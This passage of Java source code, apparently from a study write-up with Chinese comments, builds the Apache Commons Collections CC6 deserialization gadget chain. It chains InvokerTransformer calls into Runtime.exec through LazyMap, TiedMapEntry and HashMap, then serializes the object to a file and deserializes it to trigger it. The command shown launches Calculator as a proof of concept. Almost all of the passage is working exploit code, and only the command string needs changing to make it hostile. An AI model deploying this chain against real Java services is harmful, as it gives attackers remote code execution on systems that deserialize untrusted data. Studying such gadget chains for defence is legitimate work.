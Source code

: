 ```
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[] {"/System/Applications/Calculator.app/Contents/MacOS/Calculator"}),
                new ConstantTransformer(1),
        };

        Transformer transformerChain = new ChainedTransformer(transformers);

        // 创建一个map，不用添加Entry
        Map innerMap = new HashMap();

        // 调用 LazyMap.decorate 实例化 LazyMap
        // 先传入一个人畜无害的虚假 `transformerChain` 对象 `ConstantTransformer(1)` ，避免本地调试时触发命令执行
        Map outerMap = LazyMap.decorate(innerMap, new ConstantTransformer(1));

        //创建TideMapEntry实例
        TiedMapEntry tme = new TiedMapEntry(outerMap, "keykey");

        //创建HashMap并将tme作为HashMap的key
        Map expMap = new HashMap();
        expMap.put(tme, "valuevalue");

        // HashMap中已存放有key为keykey，导致 factory.transform(key) 方法无法触发,故移除 `LazyMap` 中的 `keykey` 这个 `key`
        outerMap.remove("keykey");
        // outerMap.clear();

        //将真正的transformers数组设置进来
        Class c = LazyMap.class;
        Field factoryField = c.getDeclaredField("factory");
        factoryField.setAccessible(true);
        factoryField.set(outerMap, transformerChain);

//        //==================
//        //⽣成序列化字符串
//        ByteArrayOutputStream bos = new ByteArrayOutputStream();
//        ObjectOutputStream oos = new ObjectOutputStream(bos);
//        oos.writeObject(expMap);
//        oos.close();
//
//        System.out.println(bos);
//
//        // 反序列化
//        ByteArrayInputStream bis = new ByteArrayInputStream(bos.toByteArray());
//        ObjectInputStream ois = new ObjectInputStream(bis);
//        ois.readObject();

        // 序列化
        serialize(expMap);
        // 反序列化
        unserialize("ser_CC6_1.bin");

    }

    public static void serialize(Object obj) throws IOException {
        FileOutputStream fileOutputStream = new FileOutputStream("./ser_CC6_1.bin");
        ObjectOutputStream outputStream = new ObjectOutputStream(fileOutputStream);
        outputStream.writeObject(obj);
        outputStream.close();
        fileOutputStream.close();
```